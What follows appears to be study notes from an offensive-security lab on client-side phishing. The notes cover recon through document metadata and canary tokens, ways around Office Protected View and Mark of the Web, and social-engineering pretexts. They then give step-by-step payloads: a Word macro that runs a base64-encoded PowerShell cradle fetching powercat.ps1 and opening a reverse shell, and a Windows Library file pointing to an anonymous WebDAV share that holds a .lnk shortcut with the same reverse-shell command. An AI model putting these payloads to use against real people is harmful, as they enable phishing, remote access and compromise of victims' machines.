




### Client-side Attacks

Phishing often takes advantage of client side attacks.  Client-side attacks are often delivered via a phishing email or some other means (USB dropping, watering hole attacks, etc).  They work by delivering malicious files directly to users.

#### Target Recon

Gathering information on a system that we do not have access to can be a challenge but it's not impossible.  It also leaves no traces of our actions on the target's systems.

We can gather documents created by the target and check metadata tags.  This often includes a variety of info including author, creation date, name and version of software used to create it, OS of the client, and potentially more!

We can search for different documents using Google Dorks and then use different tools to extract that documents metadata.

`exiftool <document>` will spit out that documents metadata.

  

Including, again, the creation date and program used.

  

You can also do something called `Device Fingerprinting` by using the following website to create a canary token, `https://canarytokens.org/nest/generate`.  We then would create a pretext for sending someone a link, i.e. a document that needs a portion clarified and a link to that section.  We then hide the canary token in a link and hope the user clicks on it.  This will return information on the system based on the canary token that was sent.

With some of the info we get back, we can get some 'cleaner' information regarding the user agent with `https://explore.whatismybrowser.com/useragents/parse/`.

#### Getting around Protected View

Instead of emailing the document directly, as it would likely be blocked or ignored, we should use alternative methods like getting someone to download it from a sharing site.

Office will also "lock" a document with the "Protected View" tab if the system knows it's been downloaded (a special tag on the document, Mark of the Web or MOTW, makes this possible).  One way around this is to blur a portion of the document and instruct the user to click Enable in order to unblur and see the rest of the document.

In later versions of office, it's no longer as easy as clicking a single button to unblock the content.  Even so, create pretext for that user to go through the steps, albeit more, to get the information they think is on the document.

You can also try to wrap the document in a file format such as zip, 7zip, iso, or img to try and bypass the MOTW tag.

#### Creating our Macro

Do not use .docx as it can not store a macro.  .doc and .docm are acceptable file extensions.

We'll find the Macro section in a new word document under the View tab.  In the new window, we'll name our macro, set the `Macros in:` field to our document so they get saved to the document, and click create.

That opens up the VBA editing section where we can launch powershell and do other things.

Here, we're going to create a macro that opens powershell and then downloads and runs powercat.ps1 to create a reverse shell.

`IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.197/powercat.ps1');powercat -c 192.168.45.197 -p 443 -e powershell`

This command should do just that.  First it downloads powercat.ps1 and then uses that to run a reverse shell to the IP listed on port 443.  When using powershell, it's very important to encode this into UTF16-LE and then Base64.

This can be done with cyberchef.io.  Use the `encode text` function.  Select the `UTF16-LE` and then the `Base64`.

Then run it through a python script to split that up into chunks and have powershell append it from the document.

```
str = "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGUAdw.......AIABwAG8AdwBlAHIAcwBoAGUAbABsAA=="

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

This script should spit it out into chunks that powershell can handle.

  

Then, drop that into the macro.  Make sure to clean the code up.  Some versions may error out if it's not.

  

Start up your http server to host `powercat.ps1` and start your listener to the correct port and send the file.  If a user clicks on it and enables macros, you're in.

#### Abusing Windows Library Files

Windows Library Files are containers for user content.  Think of them as a remote folder that is tied to a file.  While macros are pretty well known and thus harder to get a compromise with, Library Files are not as well known and are just as effective.

First, we create a Windows Library file connecting to a `WebDAV` that we will set up.  A `WebDAV` is kind of like SMB but over HTTP.  The Windows Library files will have the `.Library-ms` extension.  When the `.library-ms` file is opened, it will look like a normal file structure.  In that `WebDAV` directory, we'll put a `.lnk` file that will house the PowerShell revese shell payload.

We might be able to host the file on a web server but that would require a link to be sent.  With most filters checking links for malicious executables and such, it's likely that our link won't ever get to the target.  The `.library-ms` file, however, does not have such scrutiny yet.  Those, we can email, and since it opens and appears like a normal local file in the Windows File Explorer, you can dress it up like a zip file or some other clever idea.

First things first.  Setting up the `WsgiDAV` as the WebDAV server.  If you haven't already, install that.

`sudo apt install python3-wsgidav`

Once we get that installed, create the directory and go into it.  This is the folder that will house our `.lnk` file with the powershell script.

```
mkdir /home/kali/webdav
cd /home/kali/webdav
```

While we're in that folder, we'll run the following command to start up the `wsgidav` server.

`wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/`

Here, we're running the command.  `--host=0.0.0.0` specifies that we're going to listen on all interfaces.  The `--auth=anonymous` disables authentication so we can more easily grab the file.  And we set the root directory with `--root /home/kali/webdev/`.  We can check this by putting a test file in there and going to `http://127.0.0.1` and seeing if the file shows up.

Now that that's up and going, we're going to create the `Windows Library file` that will connect back to the server that we just started up.  We'll use Visual Studio Code for this.  In most cases, we would build this in our own environment and this would be the file that we would email out.  In the lab though, we just connect to a device via rdp and create it there.

`Library files` consist of three major sections and is written in XML.  The `General library information`, `library properties`, and `library locations` (the site `https://learn.microsoft.com/en-us/windows/win32/shell/library-schema-entry` also has some good info on these files).

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">

</libraryDescription>
```

This is the standard since Windows 7.  Everything now will go inside of the `<libraryDescription>` tags.  The next two tags we add are the `name` and `version` tag.

```
<name>@windows.storage.dll,-34582</name>
<version>8</version>
```

The `name` is not just a name, but a specific library providing a DLL name and index.  Two common ones are `@shell32.dll,-34575` and `@windows.storage.dll,-34582`.  The shell one gets filtered sometimes so the storage one is likly more common for our needs.  The `version` number on the other hand can be set to any numerical value at random.  Here we picked `8`

```
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
```

In this block, we set to tags.  The `isLibraryPinned` specifies if the navigation is pinned to the navigation pane in Windows File Explorer.  Setting this to `true` makes it appear like a normal local file.  The `iconReference` is to set the icon's appearance.  We have a couple options here.  We use `imageres.dll` and here we use `-1003` which references the Pictures folder icon.  We could use `-1002` to give it the appearance of the Documents folder icon.

```
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
```

The `templateInfo` and `folderType` tags determine the columns and details displayed in Windows File Explorer after opening the library.  We can look at different ones here, `https://learn.microsoft.com/en-us/windows/win32/shell/schema-library-foldertype`

The next bit added is the library location section.  Here we're pointing to the remote location of the library.

```
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.x.x</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
```

`isDefaultSaveLocation` is set to true, to use default behaviour.  That's fine.  `isSupported` is set to false, it's used for compatability and isn't not even documented in Microsoft Documentation.  The most important one here is the `url` tag, which is inside the `simpleLocation` tag.  It has the url of the WebDAV server we started previously.

We should now have a whole file that looks similar to this:

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.x.x</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

Save that to the desktop and then open it and you should get a regular looking Windows File Explorer with any files that you've added to the `WebDAV` folder on your attack machine.

Now, it's important to note that once we run the file, if we open it again, we see a few changes.  One field called `serialized` is added and some extra at the end of our `url` is present as well.

  

Because of this, this file may no longer work.  This is kind of a one and done attack.  We can revert it back and reuse the file but it would have to be replaced.  Fortunately, for most assessments, we only need it opened the one time.

Now that we have our `WebDAV` server and our Windows library file pointing to it, we need to make a `.lnk` file that points to us with a reverse shell so we can put it into the `WebDAV` folder for the victim to click on.

On our Windows machine, we can right click on the desktop and select `New` and then `Shortcut`.  We want to point to a download for `powercat.ps1` on our device and then another command to use that to create a reverse shell.

`powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.x.x:8000/powercat.ps1');
powercat -c 192.168.x.x -p 443 -e powershell"`

With this, we'll host our server on port 8000 (`python3 -m http.server 8000`) in the folder that has `powercat.ps1` in it.  We'll also start up our listener on `-p 443`.  Then wait for the user to click the link.